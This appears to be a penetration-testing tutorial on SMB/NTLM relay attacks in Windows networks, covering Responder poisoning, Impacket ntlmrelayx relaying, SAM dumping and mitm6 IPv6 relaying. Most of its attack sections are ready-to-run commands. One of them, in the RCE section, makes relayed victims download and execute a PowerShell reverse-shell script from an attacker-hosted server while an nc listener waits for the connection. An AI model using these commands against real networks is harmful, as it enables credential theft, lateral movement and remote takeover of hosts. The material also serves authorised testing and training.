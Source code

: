 SMB Relay is an attack that abuses the **Server Message Block (SMB)** protocol, which is commonly used in Windows networks to share files, printers, and other resources.

The attacker takes advantage of the way SMB authentication works.  
Instead of stealing a password, the attacker **impersonates the legitimate SMB server** and then **relays** the victim’s authentication attempt to a real server to gain access.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Basic Attack Process

1. **Configuring Responder**:

- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```bash
sudo nano /etc/responder/Responder.conf
```
- Responder is a tool used to capture SMB/NTLM authentication attempts from victims. It works by spoofing services like SMB, DNS, and HTTP to trick devices into sending authentication requests to the attacker.

```bash
sudo responder -I eth0 
```


2. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to. You can identify the hosts with SMB enabled using:
```bash
nxc smb 192.168.1.0/24
```
- While the Responder is active use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
3. **Gaining access**:
Perform post-authentication actions:

- Dump sensitive information (e.g., SAM database, LSASS memory).
- Execute commands remotely.
- Create a reverse shell.
```bash
sudo impacket-ntlmrelayx -tf targets.txt --dump
sudo impacket-ntlmrelayx -tf targets.txt -c "whoami"
```

## RCE Attack Process
- Copy the PowerShell Invoke-PowershellTCP.ps1 script and open it for editing. 
```bash
cp Invoke-PowershellTCP.ps1 PS.ps1
nano PS.ps1
```
- Add the following line at the end of the file:
```bash
Invoke-PowershellTCP -reverse -IPAddress <attacker_ip> -Port 4444
```
- Start a Python HTTP server and a listener:
```bash
python3 -m http.server 80
nc -lvnp 4444
```
- Run the responder service to capture authentication attempts 
```bash
sudo responder -I eth0 
```
- Execute the NTLMRelay inducing to fetch and execute the hosted script.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object Net.WebClient).downloadString('http://<attacker_ip>:80/PS.ps1')"
```
## IPv6 SMB Relaying Attack Process
IPv6 relaying leverages the fact that many modern networks have IPv6 enabled by default, even if administrators primarily use IPv4. Attackers exploit IPv6 name resolution to trick clients into authenticating against a rogue server controlled by the attacker, allowing NTLM credentials to be captured and relayed.

1. **Start mitm6:**

```bash
mitm6 -d <domain>
```

- This announces fake IPv6 RAs and provides a rogue DNS server.
- All domain-joined Windows clients will attempt to resolve domain resources via the attacker.

2. **Capture NTLM Authentication:**

- When a client attempts to access any SMB or HTTP resource in the domain, it authenticates using NTLMv2.
- The authentication request is sent to the attacker instead of the legitimate server.

2. **Relay with NTLMRelayx:**

- Relay these IPv6-captured NTLM credentials to a target system:
```bash
sudo ntlmrelayx.py -6 -tf targets.txt -socks -debug -smb2support
```

- The `-6` flag ensures the relay works over IPv6.
- `-smb2support` is crucial as modern Windows systems often enforce SMB2/3.
- `-socks` allows connecting through a SOCKS proxy to interact with the compromised account.

4. **Connecting to the Relayed Account:**

Once a relay has been successfully established, you can access the account using a **SOCKS proxy**:

```bash
proxychains crackmapexec smb <target-ip> -u <user> -p <anypassword> -d <domain>
```

---


## NTLMRelayx.py

**ntlmrelayx.py** is a powerful tool from the Impacket toolkit used for relaying captured NTLM authentication attempts to other network services. It is particularly effective in Windows Active Directory (AD) environments, allowing attackers to gain unauthorized access to network resources by relaying credentials.

#### Configuring Target List:

- Create a `targets.txt` file with the IP addresses or hostnames of the target AD servers you want to relay the captured credentials to.
```bash
192.168.1.10 
192.168.1.11
```

#### Starting NTLMRelayx.py:

- Use NTLMRelayx.py to relay captured NTLM authentication attempts to the targets listed in `targets.txt`.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- Also, NTLMRelayx.py can be configured to execute a certain command of our election after pawning one of the target hosts. 
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"
```


